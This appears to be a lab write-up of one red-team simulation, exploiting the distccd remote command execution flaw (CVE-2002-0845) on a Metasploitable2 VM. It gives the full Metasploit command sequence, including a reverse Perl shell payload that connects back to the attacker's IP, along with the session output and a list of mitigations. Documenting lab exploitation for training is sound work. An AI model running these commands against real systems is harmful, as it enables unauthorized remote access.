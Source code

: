 
# 🧨 Attack Simulation 12: Remote Code Execution via DistCC (CVE-2002-0845)

In this simulation, I exploited a **remote command execution vulnerability** in the `distccd` service running on **Metasploitable2**. This is a classic example of abusing a misconfigured or exposed service to gain shell access.

---

## 🧠 What Is DistCC?

`distcc` is a tool used to distribute C/C++ compilation tasks across multiple machines for performance. It runs a daemon (`distccd`) that listens on a TCP port (default: **3632**) to accept jobs.

✅ **The Problem:** When misconfigured, `distccd` can execute arbitrary shell commands sent in the compilation job — allowing attackers to **execute remote commands** without authentication.

---

## ⚙️ Environment

| Role     | Machine         | IP Address      |
|----------|------------------|-----------------|
| Attacker | Kali Linux       | `192.168.1.30`  |
| Victim   | Metasploitable2  | `192.168.1.155` |

---

## 🔍 Step 1: Port Scanning and Service Discovery

```bash
nmap -sV -p- 192.168.1.155
```

🔎 Output (excerpt):
```
3632/tcp open  distccd  DistCC Daemon
```

![Nmap Results](../../screenshots/attack-simulation-12/nmap.png)

*Figure 1: Nmap Results*

🧠 **distccd** was exposed on port `3632` — a known vector for remote code execution if left unprotected.

---

## 🎯 Step 2: Launching the Exploit (Metasploit)

Open Metasploit:
```bash
msfconsole
```

Search for the exploit:
```bash
search distccd
```

Use the appropriate module:
```bash
use exploit/unix/misc/distcc_exec
```

Set the target and attacker IPs:
```bash
set RHOSTS 192.168.1.155
set LHOST 192.168.1.30
set LPORT 4444
```

Set a valid reverse shell payload:
```bash
set PAYLOAD cmd/unix/reverse_perl
```

Launch the exploit:
```bash
run
```

✅ Metasploit Output:
```
[*] Started reverse TCP handler on 192.168.1.30:4444
[*] Command shell session 1 opened
```

---

## 🧪 Step 3: Verifying Shell Access

Once the reverse shell connected, I ran:

```bash
whoami
```

Output:
```
daemon
```

![Exploitation](../../screenshots/attack-simulation-12/exploitation.png)

*Figure 2: Exploitation*

This confirms that I had **remote shell access** as the `daemon` user (a low-privileged user).

---

## 🔍 Technical Explanation

### ✅ How the Exploit Works

- `distccd` accepts and compiles jobs from remote users.
- The exploit sends a "fake" compile job with **shell commands** instead of code.
- These commands are executed on the server by the `distccd` daemon.

### ✅ How the Payload Works

- `cmd/unix/reverse_perl` is a simple **Perl one-liner** reverse shell.
- It tells the victim to connect back to the attacker's IP on port `4444` and bind a shell to it.

---

## 🔐 Security Implications

- **Unauthenticated RCE**: The attacker doesn't need credentials.
- **Easy to exploit**: Works reliably on vulnerable versions of `distccd`.
- **Remote shell**: The attacker can now upload tools, enumerate the machine, or escalate privileges.

---

## 🛡️ Mitigation Strategies

- 🔒 **Firewall** unused ports like 3632 (e.g., `iptables`, `ufw`)
- 🚫 Do not expose `distccd` to the internet
- ✅ Run `distccd` in secure mode or containerized environments
- 🔄 Regularly patch software and audit running services

---

## ✅ Summary

| Step | Action                        | Result                  |
|------|-------------------------------|--------------------------|
| 1    | Scanned target                | Found port 3632 open     |
| 2    | Used Metasploit exploit       | Got reverse shell        |
| 3    | Verified shell access         | `daemon` user shell      |

---

## 📌 Conclusion

This simulation demonstrates how **misconfigured network services** like `distccd` can lead to **remote shell access**. As part of my red team simulations, this adds a critical example of how **authenticated access isn't always needed** to compromise systems.

🔴 Always monitor exposed ports and run services in hardened, least-privileged configurations.